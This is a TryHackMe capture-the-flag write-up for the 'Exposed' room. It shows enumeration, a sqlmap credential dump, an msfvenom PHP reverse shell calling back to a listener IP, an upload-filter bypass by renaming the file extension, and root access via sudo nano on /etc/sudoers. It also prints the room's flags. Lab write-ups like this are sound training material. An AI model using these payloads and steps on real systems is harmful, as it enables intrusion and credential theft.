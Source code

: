 # Exposed | TryHackMe Write-up

##  Overview

**Room:** Exposed  
**Difficulty:** Easy  
**Tags:** Enumeration, SQL Injection, LFI, File Upload, Privilege Escalation

---

##  Enumeration

### Nmap

Quick port scan:

```bash
sudo nmap -sC -sV -oN <IP>
```



Full port scan:

```bash
nmap -p- -oN nmap_full.txt <IP>
```



**Found:**
- HTTP on port 1337  
- FTP (no useful information)

---

### Gobuster

Directory fuzzing on the web server:

```bash
gobuster dir -u http://<IP>:1337/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```


**Discovered directories:** `/admin_101`, `/phpMyAdmin`, `/admin`, `/javascript`

---

##  SQL Injection

Login to `/admin_101` through the login form.  
Intercept the request via Burp Suite and save it as `expose.req`.



### SQLMap

Check for SQL vulnerability:

```bash
python3 sqlmap.py -r expose.req --dump
```



**Database credentials found:**
- Email: `hacker@root.thm`  
- Password: `password123`

Use them to log in to the site.

---

##  File Upload Shell Access

Create a PHP reverse shell using msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.146.237 LPORT=4444 -o exploit.php
```

Rename the file to `exploit.php.jpg` to bypass upload filters and upload it via the web form.



URL to trigger the shell:

```
http://<IP>:1337/upload_thm_1001/exploit.php
```

---

### Metasploit Listener Setup

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 10.11.146.237
set LPORT 4444
run
```



Reverse shell obtained with `www-data` privileges.

---

##  Privilege Escalation

### Accessing user `zeamkish`

Found credentials file:

```
/home/zeamkish/ssh_creds.txt
```

SSH login:

```bash
ssh zeamkish@<IP>
```

### Escalating to root

1. Check available sudo commands:

```bash
sudo -l
```

2. Find SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

3. Use `/usr/bin/nano` for escalation:

```bash
sudo nano /etc/sudoers
sudo -i
```

Root shell obtained.

---

##  Flags

- **User flag:** `THM{USER_FLAG_1231_EXPOSE}`  
- **Root flag:** `THM{ROOT_EXPOSED_1001}`

---

##  Conclusion

We successfully completed the following steps:

1. Port and web resource scanning  
2. SQL injection to obtain credentials  
3. PHP reverse shell upload via File Upload  
4. Initial shell access as `www-data`  
5. SSH access to user `zeamkish`  
6. Privilege escalation to root via SUID binary

*Screenshots can be added to the `screenshots/` folder for clarity.*
